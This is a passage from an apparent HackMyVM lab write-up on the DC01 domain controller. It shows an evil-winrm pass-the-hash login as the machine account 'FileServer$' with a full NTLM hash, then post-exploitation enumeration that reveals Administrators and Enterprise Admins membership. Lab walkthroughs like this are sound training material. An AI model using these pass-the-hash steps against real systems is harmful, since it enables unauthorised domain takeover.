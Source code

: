 
We obtained a successful hit on the `FileServer$` user. The `(Pwn3d!)` indicates that this account can connect locally to the DC01. We can check this by enumerating the permissions this account has on the shares hosted on the DC01. We can connect to the DC01 using WinRM protocol as shown below.
```shell
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC01/Misc File]
└─$ evil-winrm -i 10.0.2.31 -u 'FileServer$' -H e41da7e79a4c76dbd9cf79d1cb325559                                   
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FileServer$\Documents> whoami
soupedecode\fileserver$
```

## Post Exploitation

Now that we have remote access to the DC01, we can enumerate the permissions of the `fileserver$` user on the target.
```shell
*Evil-WinRM* PS C:\Users\FileServer$\Documents> whoami /all
USER INFORMATION
----------------

User Name               SID
======================= ============================================
soupedecode\fileserver$ S-1-5-21-2986980474-46765180-2505414164-2065

GROUP INFORMATION
-----------------
Group Name                                         Type             SID                                         Attributes
================================================== ================ =========================================== ===============================================================                                   
SOUPEDECODE\Domain Computers                       Group            S-1-5-21-2986980474-46765180-2505414164-515 Mandatory group, Enabled by default, Enabled group                                                
Everyone                                           Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access         Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                      Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                             Alias            S-1-5-32-544                                Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                               Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                   Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                     Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
SOUPEDECODE\Enterprise Admins                      Group            S-1-5-21-2986980474-46765180-2505414164-519 Mandatory group, Enabled by default, Enabled group
SOUPEDECODE\Denied RODC Password Replication Group Alias            S-1-5-21-2986980474-46765180-2505414164-572 Mandatory group, Enabled by default, Enabled group, Local Group
```